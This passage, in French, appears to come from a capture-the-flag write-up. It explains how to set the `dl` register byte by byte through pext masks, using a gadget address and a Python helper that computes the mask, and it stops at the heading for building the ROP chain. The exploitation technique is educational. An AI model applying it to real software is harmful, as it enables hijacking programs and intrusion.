 On ne maitrise pas la source mais le masque.
Moyenant le chargement de `eax` via `ebp`.
On a ce qu'il faut :

    0x080485bb  pop ebp; ret

La source est fixée : 0xb0bababa

Notre but n'est pas de charger `edx` mais `dl`

Par exemple pout obtenir 'f' dans `dl`

    >>> bin(0xbaba)
    '0b1011101010111010'
    >>> bin(ord('f'))
    '0b1100110'

En partant des bits de poids faible on recherche dans la source les bits correspondants au resultat qu'on veut obtenir

baba:  1011101010111010
"f"        1 10 0  1 10
masque 0000101101001011

La fonction python suivante effectue ce calcul.

```python
def calc_pext_mask(src, dest):
    mask=0
    bmask=1
    while dest:
        if dest&1 == src&1:
            mask=mask | bmask
            dest>>=1
            print(bin(mask)[2:])
        src>>=1
        bmask<<=1
    return mask

m = calc_pext_mask(0xb0bababa,ord('f'))
print("mask=",bin(m)[2:])
```
On obtient le resultat attendu pour 'f'

    1
    11
    1011
    1001011
    101001011
    1101001011
    101101001011
    mask= 101101001011

## Construction de l'attaque

### Synoptique de la chaine de ROP
